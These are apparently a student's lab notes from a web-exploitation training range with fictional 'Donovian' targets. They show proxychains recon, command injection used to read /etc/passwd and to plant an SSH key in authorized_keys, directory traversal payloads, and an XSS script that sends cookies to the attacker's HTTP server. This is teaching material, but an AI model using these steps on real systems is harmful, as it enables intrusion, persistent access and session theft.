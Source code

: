 ```
Scheme of Maneuver:
>Jump Box: 10.50.37.98
->T1:10.100.28.40
-->T2: 10.100.28.55
```
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
T1
Hostname: Donovian_MI_websvr
IP: 10.100.28.40
PORTS: 80
OS: unknown
Creds:unknown
Last Known SSH Port: 4444
PSP: Unknown
Malware: Unknown
Action: Conduct approved Web Exploitation techniques to collect intellegence.

T2
Hostname: Donovian_Training_Websvr
IP: 10.100.28.55
PORTS: 
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Conduct approved Web Exploitation techniques to collect intellegence.
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------



	Recon: prerequisites
---------------------------------------------|
	* if no socket file then, make one.  |
ssh -MS /tmp/jump student@10.50.37.98	      |
				^ jump IP     |
					      |
	* if no dynamic port, make one.      |
ssh -S /tmp/jump jump -O forward -D 9050     |
---------------------------------------------|

On lin-ops(1)
	Recon: Utilize proxychain tools
	* after getting the dynamic tunnel running 
proxychains nmap 10.100.28.40 -p 80
proxychains nc 10.100.28.40 80
proxychains nmap --script http-enum 10.100.28.40

	* http-enum esults:
Nmap scan report for 10.100.28.40
Host is up (0.00042s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-enum: 
|   /robots.txt: Robots file
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
4444/tcp open  krb524

Nmap done: 1 IP address (1 host up) scanned in 3.61 seconds

	* utilize nikto
nikto v -h 10.100.28.40

	* results of nikto:
	- Nikto v2.1.5
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
+ No web server found on 10.100.28.40:80
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
+ 0 host(s) tested

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

On lin-ops:
	* Utilize your existing Socket file, put in a new port forward:
ssh -S /tmp/jump jump -O forward -L 127.0.0.1:1111:10.100.28.40:80

	* then open a firefox web-browser on your lin-ops station:
firefox
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
On firefox:
	* navigate to the device via the Port Forward you added to you Socket File:
127.0.0.1:1111
-------- /robots.txt:--------------------------------------------------------------------------------------------------------------------------------------------------------------------
	* from your nmap --script http-enum, you enumerated the robots.txt file.
	* try accessing that file from the web-browser
http://127.0.0.1:1111/robots.txt
	* ^ results from /robots.txt:
User-agent: *
Disallow: /net_test	
-------- /css :--------------------------------------------------------------------------------------------------------------------------------------------------------------------
	* Now look at the other 3 directories that your nmap script found:
http://127.0.0.1:1111/css
	* ^ results from /css:
Index of /css
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[TXT]	jquery-ui.min.css	2022-03-23 14:33 	31K	 
[TXT]	jquery-ui.theme.min.css	2022-03-23 14:33 	14K	 
[IMG]	ui-bg_diagonals-thick_75_f3d8d8_40x40.png	2022-03-23 14:33 	413 	 
[IMG]	ui-bg_dots-small_65_a6a6a6_2x2.png	2022-03-23 14:33 	207 	 
[IMG]	ui-bg_glass_55_fbf8ee_1x400.png	2022-03-23 14:33 	340 	 
[IMG]	ui-bg_highlight-hard_100_eeeeee_1x100.png	2022-03-23 14:33 	252 	 
[IMG]	ui-bg_highlight-hard_100_f6f6f6_1x100.png	2022-03-23 14:33 	251 	 
[IMG]	ui-bg_highlight-soft_15_cc0000_1x100.png	2022-03-23 14:33 	322 	 
[IMG]	ui-icons_004276_256x240.png	2022-03-23 14:33 	4.4K	 
[IMG]	ui-icons_cc0000_256x240.png	2022-03-23 14:33 	4.4K	 
[IMG]	ui-icons_ffffff_256x240.png	2022-03-23 14:33 	6.2K	 
-------- /images :--------------------------------------------------------------------------------------------------------------------------------------------------------------------
http://127.0.0.1:1111/images
	* ^ results from /images:
Index of /images
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[IMG]	min_crest.jpeg	2022-03-23 14:33 	6.5K	 
[IMG]	sign.jpeg	2022-03-23 14:33 	10K	 
Apache/2.4.29 (Ubuntu) Server at 127.0.0.1 Port 1111

-------- /uploads :--------------------------------------------------------------------------------------------------------------------------------------------------------------------
http://127.0.0.1:1111/uploads
	* ^ results from /uploads:
Index of /uploads
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	message	2022-04-19 20:18 	229 	 
Apache/2.4.29 (Ubuntu) Server at 127.0.0.1 Port 1111

	* message from uploads

Just completed my Cyber Awareness training and it says ATOPIA. Last I checked that is a whole other country.
Please send me a corrected cert with the right now.

I took my online training from the following website

10.100.28.55
-------- /net_test :--------------------------------------------------------------------------------------------------------------------------------------------------------------------
	* check the /net_test directory:
http://127.0.0.1:1111/net_test
	* ^ results from the /net_test directory
Index of /net_test
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	industry_check.php	2022-03-23 14:33 	1.5K	 
Apache/2.4.29 (Ubuntu) Server at 127.0.0.1 Port 1111	
	
	
	* the web-page that the /new_test directory redirects you to has:
		System to ping:
		Path to test:
		Port to check:
		with the input fields enumerated above we can leverage Command Injection. 
	
	* try enumerating /etc/passwd in all the fields provided above ^
	* results for Path to Test:
	* User is billybob
billybob:x:1001:1001:you found me watkTNrQG4K8go2baNbj:/home/billybob:/bin/bash

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
billybob:x:1001:1001:you found me watkTNrQG4K8go2baNbj:/home/billybob:/bin/bash


billybob:x:1001:1001:you found me watkTNrQG4K8go2baNbj:/home/billybob:/bin/bash

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

	* after you determine the user's home directory, check to see if they have a .ssh directory:
	* if not, make one:
; mkdir /home/billybob/.ssh
	* verify it was created:
; ls -la /home/billybob

	on lin-ops:
	* get your public key
ssh-keygen
ls -l /home/student/.ssh
cat /home/student/.ssh/id_rsa.pub
	* copy that key over to billybob's /home/billybob/.ssh directory. Into a new file called:	
	* /home/billybob/.ssh/authorized_keys
; echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8Ny133z4AEchrClekmxkUtlWrflXcGT8JBygIkkm/Cy7AyZ+U/Sx9YWXrYft9R0GRE/CcJpQfJJhPp0juq+Zc+vYQ73bdOf3duEZjPRTzMiibq8wOpiguT5kJ1jBs6WYqdyuWUO61Re1b1rFAcZsxz26t3S+8+ycYWyYTDthO5ugSXdXmpy9PIHUcb5ogvT0wpIOxLaVyZhlzm6CadP7iklvJAXRXqDeReKU2XdCPpKZb3awt0g4SU7d4Z6od5wR1xGgYwCpAfCpttUnyk5cgVr2YGjvpY4ExkMYSFvZmA2ENXH/3WDpx3I31/DBeGSbIAOqvTUIMGy3kmxQDKp/p student@lin-ops" >> /home/billybob/.ssh/authorized_keys

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
	on lin-ops
	* make a new socket, and ssh into the web server, and loggon
	- sednig private key to encrypt the begging of the conversation. This allows the client to authenticate.
 
 ssh -i .ssh/id_rsa -MS /tmp/web billybob@127.0.0.1 -p 1111
 
	* Congrats, you did a ssh  masquerade

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

	on web server: Directory Traversal via HTTP POST/GET methods:
	http://10.50.28.11/path/pathdemo.php


 * POST method: It cat's so try
```
../../../../../etc/passwd
```
* do ^ at least 8 times to be safe

* GET method: interacting with radio buttons, changing the url on the website.
	
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# on lin-ops:
* make a http server via python3:
```
python3 -m http.server
```
* then put script on webpage
```	
<script>document.location="http://10.50.27.61:8000/?" + document.cookie;</script>
```
* lin-ops IP ^^^

					
10.50.27.61:8000
